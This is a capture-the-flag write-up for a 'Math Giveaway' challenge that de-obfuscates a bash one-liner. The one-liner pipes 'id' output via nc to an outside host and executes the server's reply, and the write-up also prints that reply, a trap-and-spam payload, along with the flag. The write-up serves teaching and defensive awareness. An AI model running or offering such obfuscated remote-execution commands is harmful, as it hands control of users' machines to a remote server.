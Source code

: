 # Math Giveaway writeup
Let's run the command (spoiler: never do that before reading code):

```bash
$ bash -c 'echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!
```

`2 * 2 + 2 = 6`

```bash
6   
[.] Gettin yo flag, please, stand by...
```

It takes some time...

```bash
<skull ascii art>

WELL, sultanowskii != 5up3r_U53r_2004.
LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC.
NEVER RUN STRANGE COMMANDS ANYMORE.
NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.
```

And then our console and current directory are spammed:

```bash
$ PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
ls
PWNED1  PWNED2  PWNED3  PWNED4  PWNED5  PWNED6
```

We got 'hacked' (in fact, something _way_ worse could have happened, but it's school CTF, so no real malware). Let's get to analysis. Firstly, some spaces and newlines:

```bash
echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!";
read q; 
if ! [[ $q -eq 6 ]];
then 
	echo "[!] Incorrect answer :c";
else 
	echo "[.] Gettin yo flag, please, stand by...";
	srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; 
	if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]];
	then
		sleep 3;
		bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`";
	else
		echo "[!] Plz check ur internet connection";
	fi;
fi;
```

Quite readable now. Lets see what this 'obfuscated' lines do:

```bash
$ echo "`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"
77.223.96.24 21006
$ echo "==QPN1mY" | rev | base64 -d | base64 -d             
nc
$ echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d           
id
$ bash -c "echo bmM= | base64 -d"  
nc
```

And replace 'em with what actually do:

```bash
echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!";
read q; 
if ! [[ $q -eq 6 ]];
then 
	echo "[!] Incorrect answer :c";
else 
	echo "[.] Gettin yo flag, please, stand by...";
	srv="77.223.96.24 21006"; # destination address
	if [[ `nc -z ${srv};` -eq 0 ]]; # check if server is availiable
	then
		sleep 3;
		bash -c "`id | nc -n $(echo "${srv}")`"; # sending the output of id command to the server and execute everything that server returned.
	else
		echo "[!] Plz check ur internet connection";
	fi;
fi;
```

Script is clear now. It connects to **77.223.96.24:21006** (firstly checking if it's available or not) and sends there an `id` output. Then, the script executes commands that are sent by server.

Example of the `id` output:

```bash
$ id
uid=1000(sultanowskii) gid=1000(sultanowskii) groups=1000(sultanowskii),24(cdrom),25(floppy)
```

Back to the script. To understand what server does, let's manually send `id` output to the server (using pipeline -a `|`):

```bash
$ echo "`id | nc 77.223.96.24 21006`"
echo ""; echo ""; echo "============ PWNED BY 5up3r_U53r_2004 ============"; echo "     .... NO! ...                  ... MNO! ..."; echo "   ..... MNO!! ...................... MNNOO! ..."; echo " ..... MMNO! ......................... MNNOO!! ."; echo ".... MNOONNOO!   MMMMMMMMMMPPPOII!   MNNO!!!! ."; echo " ... !O! NNO! MMMMMMMMMMMMMPPPOOOII!! NO! ...."; echo "    ...... ! MMMMMMMMMMMMMPPPPOOOOIII! ! ..."; echo "   ........ MMMMMMMMMMMMPPPPPOOOOOOII!! ....."; echo "   ........ MMMMMOOOOOOPPPPPPPPOOOOMII! ...  "; echo "    ....... MMMMM..    OPPMMP    .,OMI! ...."; echo "     ...... MMMM::   o.,OPMP,.o   ::I!! ..."; echo "         .... NNM:::.,,OOPM!P,.::::!! ...."; echo "          .. MMNNNNNOOOOPMO!!IIPPO!!O! ....."; echo "         ... MMMMMNNNNOO:!!:!!IPPPPOO! ...."; echo "           .. MMMMMNNOOMMNNIIIPPPOO!! ......"; echo "          ...... MMMONNMMNNNIIIOO!.........."; echo "       ....... MN MOMMMNNNIIIIIO! OO .........."; echo "    ......... MNO! IiiiiiiiiiiiI OOOO ..........."; echo "  ...... NNN.MNO! . O!!!!!!!!!O . OONO NO! ........"; echo "   .... MNNNNNO! ...OOOOOOOOOOO .  MMNNON!........"; echo "   ...... MNNNNO! .. PPPPPPPPP .. MMNON!........"; echo "      ...... OO! ................. ON! ......."; echo "         ................................"; echo "==================================================="; echo ""; echo "WELL, sultanowskii != 5up3r_U53r_2004."; echo "LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC."; echo "NEVER RUN STRANGE COMMANDS ANYMORE."; echo "NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.";
trap '' 2
(for i in {1..10000000};
do
    touch "PWNED${i}";
    echo "PWNED BY 5up3r_U53r_2004";
    sleep 1;
done; ) &
```

Server sends a sequence of the commands, and the script then executes them. If we send something different from the `id` output:

```bash
$ nc 77.223.96.24 21006
?
GTFO, not ur business
$ nc 77.223.96.24 21006
asdadaadgaazxchzjkc
GTFO, not ur business
```

Here is the full message:

```bash
============ PWNED BY 5up3r_U53r_2004 ============
     .... NO! ...                  ... MNO! ...
   ..... MNO!! ...................... MNNOO! ...
 ..... MMNO! ......................... MNNOO!! .
.... MNOONNOO!   MMMMMMMMMMPPPOII!   MNNO!!!! .
 ... !O! NNO! MMMMMMMMMMMMMPPPOOOII!! NO! ....
    ...... ! MMMMMMMMMMMMMPPPPOOOOIII! ! ...
   ........ MMMMMMMMMMMMPPPPPOOOOOOII!! .....
   ........ MMMMMOOOOOOPPPPPPPPOOOOMII! ...  
    ....... MMMMM..    OPPMMP    .,OMI! ....
     ...... MMMM::   o.,OPMP,.o   ::I!! ...
         .... NNM:::.,,OOPM!P,.::::!! ....
          .. MMNNNNNOOOOPMO!!IIPPO!!O! .....
         ... MMMMMNNNNOO:!!:!!IPPPPOO! ....
           .. MMMMMNNOOMMNNIIIPPPOO!! ......
          ...... MMMONNMMNNNIIIOO!..........
       ....... MN MOMMMNNNIIIIIO! OO ..........
    ......... MNO! IiiiiiiiiiiiI OOOO ...........
  ...... NNN.MNO! . O!!!!!!!!!O . OONO NO! ........
   .... MNNNNNO! ...OOOOOOOOOOO .  MMNNON!........
   ...... MNNNNO! .. PPPPPPPPP .. MMNON!........
      ...... OO! ................. ON! .......
         ................................
===================================================

WELL, sultanowskii != 5up3r_U53r_2004.
LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC.
NEVER RUN STRANGE COMMANDS ANYMORE.
NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.
```

Attacker's username is `5up3r_U53r_2004`. And our nickname is compared to it (for instance, `sultanowskii != 5up3r_U53r_2004`). Seems like silly authorization. Let's try to run this script as `5up3r_U53r_2004`:

```bash
$ # create user with name 5up3r_U53r_2004
$ sudo adduser 5up3r_U53r_2004 --force-badname
<user creation procedure>
$ # login as 5up3r_U53r_2004 in terminal
$ su - 5up3r_U53r_2004
```

Run the script:

```bash
$ # run the given command
$ bash -c 'echo "[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv}; echo $?;` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!
6
[.] Gettin yo flag, please, stand by...
WELL, 5up3r_U53r_2004 == 5up3r_U53r_2004.
li2CTF{4lw4y5_ch3ck_wh47_u_CTRL+C_and_CTRL+V_70_ur_73rm1n4l!}
```

Flag: `li2CTF{4lw4y5_ch3ck_wh47_u_CTRL+C_and_CTRL+V_70_ur_73rm1n4l!}`
